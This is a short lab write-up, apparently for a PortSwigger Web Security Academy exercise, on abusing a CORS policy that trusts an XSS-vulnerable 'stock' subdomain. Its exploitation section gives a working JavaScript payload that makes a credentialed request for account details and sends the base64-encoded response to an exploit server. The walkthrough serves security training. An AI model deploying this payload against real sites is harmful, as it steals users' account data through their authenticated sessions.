


# CORS + XSS vulnerability with trusted insecure protocols and origin subdomains

In this case we are not allowed either an arbitrary value or `null` in the `Origin` header, but a **subdomain** is allowed.

After verifying this, we look for a legitimate subdomain on the site. We found: `stock`

This subdomain is vulnerable to `XSS`.






Our objective will be to craft a script that redirects to a domain with an allowed `Origin` and, on that domain, inject a payload that triggers an XSS which would allow us to obtain information and send it to our server.

**Exploitation**

```js
<script>
    document.location="http://<subdomain.<IP>/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('GET','https://<IP>.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://<EXPLOIT-SERVER>/log?key='%2b btoa(this.responseText) };%3c/script>&storeId=1"
</script>